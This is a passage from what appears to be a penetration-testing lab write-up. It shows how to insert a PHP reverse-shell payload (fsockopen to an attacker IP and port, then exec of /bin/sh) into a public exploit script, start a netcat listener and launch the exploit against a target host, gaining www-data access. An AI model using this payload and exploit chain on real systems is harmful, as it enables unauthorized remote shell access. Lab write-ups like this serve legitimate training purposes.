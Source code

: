 ![python2 18836.py 10.2.20.205 80](assets/image-20230424150454511.png)

- Modify `pwn_code` variable and insert **PHP reverse shell code**

```bash
vim 18836.php
# insert:
pwn_code = """<?php $sock=fsockopen("10.10.24.6",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
# Save and quit
```

```bash
# On another tab
nc -nvlp 1234

# Launch the exploit
python2 18836.py 10.2.20.205 80
```

![Unprivileged access with "www-data" user](assets/image-20230424151516577.png)
